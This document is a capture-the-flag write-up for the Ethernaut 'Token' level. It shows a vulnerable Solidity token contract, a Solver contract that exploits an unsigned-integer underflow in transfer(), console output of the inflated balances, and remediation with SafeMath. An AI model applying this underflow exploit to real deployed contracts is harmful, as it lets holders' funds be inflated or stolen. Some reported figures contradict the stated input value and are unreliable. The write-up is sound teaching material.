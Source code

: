 ![Token](/assets/img/BigLevel5.svg)

- [Challenge](#challenge)
- [Solution](#solution)
- [Remediation](#remediation)
- [References](#references)
   
# Challenge

The level says:

> The goal of this level is for you to hack the basic token contract below.
> 
> You are given 20 tokens to start with and you will beat the level if you somehow manage to get your hands on any additional tokens. Preferably a very large amount of tokens.
>
>  Things that might help:
>
>  - What is an odometer?

And gives the following contract's code:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {

  mapping(address => uint) balances;
  uint public totalSupply;

  constructor(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}
```

# Solution

As usual, we start by reading the contract and interacting with its functions to understand what it does.

Let's call some functions and see their values:

```javascript
await contract.totalSupply().then(v => v.toString())
'21000000'
```

```javascript
await contract.balanceOf(OUR_ADDRESS).then(v => v.toString())
'20'
```

```javascript
await contract.balanceOf(OWNER_ADDRESS).then(v => v.toString())
'20999980'
```

Ok, this makes sense. There is a total of 21000000 tokens in the contract, we have 20 and the owner has the rest. So, what happens if we try to transfer 1 token to the owner's address?

```javascript
await contract.transfer(OWNER_ADDRESS, 1)
```

```javascript
await contract.balanceOf(OUR_ADDRESS).then(v => v.toString())
'19'
```

```javascript
await contract.balanceOf(OWNER_ADDRESS).then(v => v.toString())
'20999981'
```

It works! Perfect! Now, how can we get more tokens? We cannot transfer the ones from the owner as the contract is keeping the balances by using `msg.sender`. So if we would want to get the tokens from the owner, we would need to call transfer from the owner's account... If we transfer money from ourselves we would end up having the same balance...

Could we try to write a contract that calls transfer? By doing that, `msg.sender` would be the "Solver" contract's address. But that address is going to have 0 as balance. So, what can we do?

If we read the level's info again, it gives us a clue, which says "What is an odometer?"

> An odometer is an instrument for measuring the distance travelled by a wheeled vehicle.

![Odometer](/assets/img/odometer.jpeg)

The interesting thing about this instrument is, what happens, once it reaches 999999km, if we continue driving the car? It goes back to 000000!!

So this hints us that we would need to exploit an overflow (in this case an underflow)

> an integer overflow occurs when an arithmetic operation attempts to create a numeric value that is outside the range that can be represented with a given number of digits – either higher than the maximum or lower than the minimum representable value.

Note that the balances and values are `uint`(`uint256`) which means unsigned integer (in these case of 256 bits) its minimum value is 0 (because it is an **unsigned** integer) and its maximum value is 2^256-1 = 115792089237316195423570985008687907853269984665640564039457584007913129639935.

Also note that the `require` of the `transfer()` function is `balances[msg.sender] - _value >= 0`. Can a subtraction of two UNSIGNED integers be lesser than 0? Well, the answer is no.

So going back to our previous question, if we call transfer from a newly created contract that has a balance of 0 is the require going to pass? Let's try it...

We can code a `Solver.sol` like this:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "hardhat/console.sol";
import "./Token.sol";

contract Solver {
    Token token;

    constructor(address tokenAddress) public {
        token = Token(tokenAddress);
    }

    function solve(uint _value) public {
        token.transfer(tx.origin, _value);
    }
}

```

This contract can be deployed with the Token's contract address and when the function `solve()` is called with a "value" as argument, it will call the Token's `transfer()` function with our address and the value as inputs. Let's run that code in remix and call it with a value of `100000000000`

And now let's check the balances of the contract:

```javascript
await contract.totalSupply().then(v => v.toString())
'21000000'
```

```javascript
await contract.balanceOf(OUR_ADDRESS).then(v => v.toString())
'10000000000000019'
```

```javascript
await contract.balanceOf(OWNER_ADDRESS).then(v => v.toString())
'20999981'
```

And what is the Solver's balance going to be?

```javascript
await contract.balanceOf("0x67Fd61951Cd0291f173aB220304A1c25841ec888").then(v => v.toString())
'115792089237316195423570985008687907853269984665640564039457574007913129639936'
```

Which is exactly 2^256 - 100000000000 :) Because the variable "underflowed"

So that's all! We solved the challenge as we managed to get a LOT more tokens than provided (even more than the `totalSupply` of the contract :O)

![Well done](/assets/img/ethernaut_solved.png)

# Remediation

When performing arithmetic operations in solidity versions prior to 0.8, always use libraries like OpenZeppelin's [SafeMath](https://docs.openzeppelin.com/contracts/2.x/api/math) which wraps the arithmetic operations with overflow checks.

Note: `SafeMath` is no longer needed starting with Solidity 0.8. The compiler now has built in overflow checking.

# References

- [SWC-101](https://swcregistry.io/docs/SWC-101)